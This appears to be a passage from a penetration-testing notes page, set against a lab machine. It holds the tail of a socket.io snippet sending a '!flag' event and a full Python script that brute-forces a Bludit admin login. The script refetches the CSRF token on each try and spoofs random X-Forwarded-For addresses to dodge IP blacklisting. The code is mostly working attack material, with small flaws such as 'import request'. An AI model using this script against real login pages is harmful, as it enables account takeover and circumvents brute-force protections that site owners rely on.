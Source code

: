                   const username = 'admin'

                  socket.on('connect', () => {
                      console.log('connected!');
                      socket.emit('join', {
                          room: username
                      });
                    socket.emit('my_room_event', {
                        data: '!flag',
                        room: username
                    })

                  });
                  </script>

# CSRF Login Brute Force

The code can be used to Brut Force a login form using a CSRF token (It's also using the header X-Forwarded-For to try to bypass a possible IP blacklisting):


              import request
              import re
              import random

              URL = "http://10.10.10.191/admin/"
              PROXY = { "http": "127.0.0.1:8080"}
              SESSION_COOKIE_NAME = "BLUDIT-KEY"
              USER = "fergus"
              PASS_LIST="./words"

              def init_session():
                  #Return CSRF + Session (cookie)
                  r = requests.get(URL)
                  csrf = re.search(r'input type="hidden" id="jstokenCSRF" name="tokenCSRF" value="([a-zA-Z0-9]*)"', r.text)
                  csrf = csrf.group(1)
                  session_cookie = r.cookies.get(SESSION_COOKIE_NAME)
                  return csrf, session_cookie

              def login(user, password):
                  print(f"{user}:{password}")
                  csrf, cookie = init_session()
                  cookies = {SESSION_COOKIE_NAME: cookie}
                  data = {
                      "tokenCSRF": csrf,
                      "username": user,
                      "password": password,
                      "save": ""
                  }
                  headers = {
                      "X-Forwarded-For": f"{random.randint(1,256)}.{random.randint(1,256)}.{random.randint(1,256)}.{random.randint(1,256)}"
                  }
                  r = requests.post(URL, data=data, cookies=cookies, headers=headers, proxies=PROXY)
                  if "Username or password incorrect" in r.text:
                      return False
                  else:
                      print(f"FOUND {user} : {password}")
                      return True

              with open(PASS_LIST, "r") as f:
                  for line in f:
                      login(USER, line.strip())
